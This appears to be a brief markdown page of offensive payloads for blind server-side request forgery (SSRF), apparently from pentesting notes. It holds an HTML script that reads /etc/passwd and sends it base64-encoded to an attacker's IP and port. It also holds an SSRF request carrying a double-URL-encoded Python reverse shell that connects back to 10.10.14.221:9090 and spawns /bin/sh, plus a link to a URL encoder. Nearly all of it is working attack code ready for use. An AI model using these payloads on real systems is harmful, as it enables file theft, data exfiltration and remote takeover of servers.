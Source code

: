 ## HTML script that sends data back to home

```

<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```


## Payload for a reverse shell
```
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```



## URL encoder
https://www.urlencoder.org/

